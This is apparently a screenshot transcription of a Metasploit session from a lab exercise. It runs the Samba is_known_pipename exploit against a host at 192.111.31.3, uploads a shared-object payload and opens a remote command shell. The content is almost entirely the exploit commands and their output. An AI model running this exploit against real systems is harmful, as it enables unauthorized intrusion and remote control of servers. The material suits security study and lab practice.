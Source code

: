 ```
msf5 > search type:exploit samba

Matching Modules
================

   #   Name                                                 Disclosure Date  Rank       Check  Description
   -   ----                                                 ---------------  ----       -----  -----------
   3   exploit/linux/samba/is_known_pipename                2017-03-24       excellent  Yes    Samba is_known_pipename() Arbitrary Module Load
```

```
msf5 > use exploit/linux/samba/is_known_pipename
msf5 exploit(linux/samba/is_known_pipename) > show options

Module options (exploit/linux/samba/is_known_pipename):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   RHOSTS          192.111.31.3     yes       The target address range or CIDR identifier
   RPORT           445              yes       The SMB service port (TCP)
   SMB_FOLDER                       no        The directory to use within the writeable SMB share
   SMB_SHARE_NAME                   no        The name of the SMB share containing a writeable directory


Exploit target:

   Id  Name
   --  ----
   0   Automatic (Interact)


msf5 exploit(linux/samba/is_known_pipename) > exploit

[*] 192.111.31.3:445 - Using location \\192.111.31.3\exploitable\tmp for the path
[*] 192.111.31.3:445 - Retrieving the remote path of the share 'exploitable'
[*] 192.111.31.3:445 - Share 'exploitable' has server-side path '/
[*] 192.111.31.3:445 - Uploaded payload to \\192.111.31.3\exploitable\tmp\lWygoEQH.so
[*] 192.111.31.3:445 - Loading the payload from server-side path /tmp/lWygoEQH.so using \\PIPE\/tmp/lWygoEQH.so...
[-] 192.111.31.3:445 -   >> Failed to load STATUS_OBJECT_NAME_NOT_FOUND
[*] 192.111.31.3:445 - Loading the payload from server-side path /tmp/lWygoEQH.so using /tmp/lWygoEQH.so...
[+] 192.111.31.3:445 - Probe response indicates the interactive payload was loaded...
[*] Found shell.
[*] Command shell session 1 opened (192.111.31.2:42931 -> 192.111.31.3:445) at 2023-03-10 14:41:46 +0000

pwd
/tmp
^Z
Background session 1? [y/N]  y
```
